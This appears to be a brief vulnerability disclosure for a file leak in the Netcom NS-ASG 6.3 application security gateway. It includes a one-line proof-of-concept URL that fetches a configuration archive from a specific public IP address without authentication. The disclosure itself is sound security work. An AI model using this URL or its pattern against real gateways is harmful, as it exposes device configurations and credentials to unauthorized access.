 There is a file leak in the website source code of the Netcom NS-ASG application security gateway

official website:https://www.netentsec.com/

version:NS-ASG 6.3

See the login page.
<img width="1168" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/909951b0-9b10-4878-a3ab-dc4bb3ecb1fa">

Construct the poc as follows
https://115.231.254.66:8001/configsave/ASG6.3-thefirstconfiguration.tar.gz
<img width="1087" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/aea80295-987c-4b7b-a47b-305fc18d3432">
